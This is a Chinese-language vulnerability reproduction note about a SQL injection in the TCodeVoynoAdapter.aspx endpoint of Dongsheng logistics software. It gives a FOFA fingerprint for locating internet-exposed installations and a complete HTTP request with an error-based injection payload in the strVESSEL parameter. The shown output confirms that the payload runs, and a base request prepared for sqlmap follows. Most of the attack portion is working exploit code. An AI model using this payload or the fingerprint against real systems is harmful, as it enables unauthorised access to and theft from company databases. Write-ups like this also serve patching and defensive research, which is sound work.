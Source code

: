 # 东胜物流软件TCodeVoynoAdapter存在SQL注入漏洞

# 一、漏洞简介
东胜物流软件是一款致力于为客户提供IT支撑的 SOP， 帮助客户大幅提高工作效率，降低各个环节潜在风险的物流软件。东胜物流软件 TCodeVoynoAdapter接口处存在 SQL 注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

# 二、影响版本
+ 东胜物流软件

# 三、资产测绘
+ fofa`fid="Z4c2hPCi5IR/AnH5vZXNSQ=="`
+ 特征

![1708936256348-8d7bf6c6-a3aa-4202-9f9c-a325885eef04.png](./img/rJIO5oV0sZk0LMxK/1708936256348-8d7bf6c6-a3aa-4202-9f9c-a325885eef04-580498.png)

# 四、漏洞复现
```plain
GET /FeeCodes/TCodeVoynoAdapter.aspx?mask=0&pos=0&strVESSEL=1'%20AND%202523%20IN%20(SELECT%20(CHAR(113)%2bCHAR(120)%2bCHAR(112)%2bCHAR(113)%2bCHAR(113)%2b(SELECT%20SUBSTRING((ISNULL(CAST((%20sys.fn_VarBinToHexStr(hashbytes('MD5','hello')))%20AS%20NVARCHAR(4000)),CHAR(32))),1,1024))%2bCHAR(113)%2bCHAR(122)%2bCHAR(107)%2bCHAR(113)%2bCHAR(113)))%20AND%20'uKco'%3d'uKco HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/28.0.1468.0 Safari/537.36
Accept-Encoding: gzip, deflate
Connection: close
```

![1708936295313-27c1ae9a-9893-4fe5-8287-1cbd0d00ebfa.png](./img/rJIO5oV0sZk0LMxK/1708936295313-27c1ae9a-9893-4fe5-8287-1cbd0d00ebfa-836040.png)

```plain
qxpqq0x5d41402abc4b2a76b9719d911017c592qzkqq
```

sqlmap

```plain
GET /FeeCodes/TCodeVoynoAdapter.aspx?mask=0&pos=0&strVESSEL=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/28.0.1468.0 Safari/537.36
Accept-Encoding: gzip, deflate
Connection: close
```

![1708936414718-79468349-55d8-47d5-95d9-14824ae2eb8d.png](./img/rJIO5oV0sZk0LMxK/1708936414718-79468349-55d8-47d5-95d9-14824ae2eb8d-485496.png)



> 更新: 2024-02-29 23:55:41  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/mb0ycgqbf4y3x7lf>